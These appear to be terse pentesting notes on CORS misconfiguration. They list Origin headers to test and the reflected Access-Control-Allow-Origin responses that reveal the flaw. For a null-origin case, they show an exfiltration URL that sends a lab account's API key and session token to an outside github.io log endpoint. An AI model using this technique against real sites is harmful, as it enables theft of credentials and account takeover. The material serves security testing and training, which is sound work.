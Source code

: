 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<h4>Headers to test:</h4>
<p><code>Origin: https://example.com</code></p>

<p><code>Origin: http://example.com</code></p>

<p><code>Origin: http://subdomain.$domain.com</code></p>

<p>Response:</p>
<p><code>Access-Control-Allow-Origin: https://example.com</code></p>
<p><code>Access-Control-Allow-Origin: https://subdomain.$domain.com</code></p>

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
